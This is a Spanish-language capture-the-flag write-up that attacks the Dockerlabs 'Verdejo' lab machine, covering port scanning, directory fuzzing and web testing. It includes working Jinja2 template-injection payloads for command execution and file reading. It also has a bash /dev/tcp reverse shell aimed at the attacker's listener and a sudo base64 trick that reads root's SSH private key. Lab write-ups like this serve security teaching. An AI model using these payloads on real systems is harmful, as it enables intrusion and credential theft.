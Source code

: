 ```yaml
---
layout: single
title: Verdejo - Dockerlabs
excerpt: "Hacking"
date: 2021-05-22
classes: wide
header:
  teaser: /assets/images/dockerlabs_image_verdejo.png
  teaser_home_page: true
  icon: /assets/images/dockerlabs_icon.png
categories:
  - Writeup
---
```


<iframe width="560" height="315" src="https://www.youtube.com/embed/_q1izR4c0mg" 
title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; 
encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>



🔍 Escaneo y Reconocimiento de Puertos

Una vez desplegada la máquina víctima, lo primero que debemos hacer es verificar su disponibilidad mediante un ping:

ping -c 1 172.17.0.2

La respuesta TTL=64 sugiere que se trata de un sistema basado en Linux.
Escaneo de Puertos con Nmap

Utilizamos nmap para descubrir todos los puertos abiertos:

nmap -p- --open --min-rate 5000 -sS -n -Pn -vvv -oG allPorts 172.17.0.2

Opciones utilizadas:

    -sS: Escaneo SYN.

    -p-: Escanea todos los puertos (1-65535).

    --open: Muestra solo los puertos abiertos.

    --min-rate 5000: Establece un mínimo de 5000 paquetes por segundo.

    -n: Evita resolución DNS.

    -Pn: Omite la detección de hosts.

    -vvv: Salida detallada.

    -oG allPorts: Guarda los resultados en formato grepable.

Resultado:

Puerto 22 - SSH  
Puerto 80 - HTTP  
Puerto 8089 - Unknown

![Nmap Scan](IMGs/images/Pasted image 20240527081316.png)
Escaneo de Servicios y Versiones

Ejecutamos un segundo escaneo para obtener detalles de los servicios y versiones:

nmap -sCV -p80 -vvv -oN versionPorts 172.17.0.2

    -sCV: Scripts de enumeración + detección de versiones.

    -p80: Escaneo al puerto HTTP.

    -oN versionPorts: Guarda el resultado en formato legible.

🌐 Enumeración Web

Accedemos al sitio vía navegador con http://172.17.0.2, pero solo encontramos la página por defecto de Apache.
Descubrimiento de Directorios con Gobuster

Realizamos fuzzing para detectar directorios ocultos:

gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php

    -u: URL objetivo.

    -w: Wordlist utilizada.

    -x: Extensiones a buscar (ej. .php).

Resultado: Se detecta el directorio /javascript.

![Gobuster Result](IMGs/images/Pasted image 20240527082502.png)

Al intentar acceder, obtenemos un estado 403 Forbidden. Exploramos el puerto 8089 para más pistas.
🧪 Detección de Vulnerabilidades Web

En http://172.17.0.2:8089 encontramos una aplicación que permite ingresar texto.

![Web Form](IMGs/images/Pasted image 20240527082710.png)
Prueba de HTML Injection

Probamos inyectar HTML básico en la URL:

http://172.17.0.2:8089/?user=<h1>HTMLinjection</h1>

Resultado:

![HTML Injection](IMGs/images/Pasted image 20240527083610.png)

La respuesta confirma que el HTML se interpreta correctamente.
Prueba de SSTI (Server-Side Template Injection)

Probamos SSTI con:

http://172.17.0.2:8089/?user={{3*4}}

![SSTI](IMGs/images/Pasted image 20240527084023.png)

El resultado indica que el código fue evaluado del lado del servidor. Confirmamos una vulnerabilidad SSTI.
🛠️ Explotación de SSTI para RCE

Usamos un payload conocido para ejecutar comandos remotos:

{{self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}

📚 Referencia: PayloadsAllTheThings - SSTI
Análisis del Payload

    self.__init__: Referencia al constructor del objeto.

    .__globals__: Accede al entorno global.

    .__builtins__: Accede a funciones internas de Python.

    __import__('os'): Importa el módulo os.

    .popen('id').read(): Ejecuta id y lee la salida.

Acceso a Archivos

Probamos leer archivos con:

{{ ''.__class__.__mro__[1].__subclasses__()[40]('/etc/hosts').read() }}

![Read /etc/hosts](IMGs/images/Pasted image 20240527085127.png)
📞 Reverse Shell

Ponemos nuestra máquina a la escucha:

nc -nlvp 443

Y enviamos este payload desde la web:

http://172.17.0.2:8089/?user={{self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c \'bash -i >& /dev/tcp/172.17.0.1/443 0>&1\'').read()}}

¡Shell recibida!

![Reverse Shell](IMGs/images/Pasted image 20240527090356.png)
🔐 Escalada de Privilegios

Verificamos permisos sudo:

sudo -l

Vemos que podemos ejecutar el binario base64 como root. Lo aprovechamos para leer el archivo privado SSH del usuario root:

sudo base64 /root/.ssh/id_rsa | base64 --decode

Resultado: clave privada de root.

-----BEGIN OPENSSH PRIVATE KEY-----
... (clave completa) ...
-----END OPENSSH PRIVATE KEY-----

**Con esta clave podemos conectarnos vía SSH como root.**




